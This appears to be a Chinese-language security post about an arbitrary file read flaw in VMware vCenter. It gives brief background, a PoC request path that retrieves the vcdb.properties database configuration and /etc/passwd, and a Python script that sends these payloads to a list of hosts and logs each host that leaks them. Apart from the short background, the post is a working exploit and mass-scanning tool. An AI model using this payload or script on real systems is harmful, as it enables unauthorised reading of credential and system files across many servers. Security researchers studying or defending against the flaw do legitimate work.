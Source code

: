 # Vmware Vcenter 任意文件读取批量检测

早上看到很多大佬发了该漏洞的概况，目前还没有CVE编号  

**背景**  
VMware vCenterServer 提供了一个可伸缩、可扩展的平台，为 虚拟化管理奠定了基础。VMware vCenter Server（以前称为 VMware VirtualCenter），可集中管理 VMware vSphere 环境，与其他管理平台相比，极大地提高了 IT 管理员对虚拟环境的控制。VMware vCenter Server：提高在虚拟基础架构每个级别上的集中控制和可见性，通过主动管理发挥 vSphere 潜能，是一个具有广泛合作伙伴体系支持的可伸缩、可扩展平台。

监测到twitter平台上，有人发出任意文件读取漏洞，目前暂未申请cve

**影响范围**  

6.5u1该漏洞被修复。

**PoC**
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties

**批量脚本核心代码**
备注：经验证有linux的环境，所以加了linux下的简单检测，payload通用

```python
payloads = [r'/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties',r'/eam/vib?id=/etc/passwd']
def http_request(url):
    try:
        print("Trying:" + url + ' ' + '[' + str(left) + '/' + str(countLines) + ']')
        for payload in payloads:
            vulurl = url + payload
            print(vulurl)
            r = requests.get(url=vulurl, timeout=10, verify= False)
            if r.status_code == 200 and ('driver' in r.text or 'root:' in r.text):
                print("\033[1;40;32m[Vuln] {}\033[0m".format(vulurl))
                with open(path_out,'a') as f:
                    f.write(vulurl + '\n')
                    return
            else:
                print("[-]" + "r.status_code:" + str(r.status_code) + "," + "raise.text:" + r.text)
    except Exception as err:
        print(err)
```

**检测结果**

![](../img/71.png)

原文链接：https://www.t00ls.net/thread-58294-1-1.html 

参考Twitter：https://twitter.com/ptswarm/status/1316016337550938122 

参考文章：https://blog.csdn.net/weixin_43650289/article/details/109066534

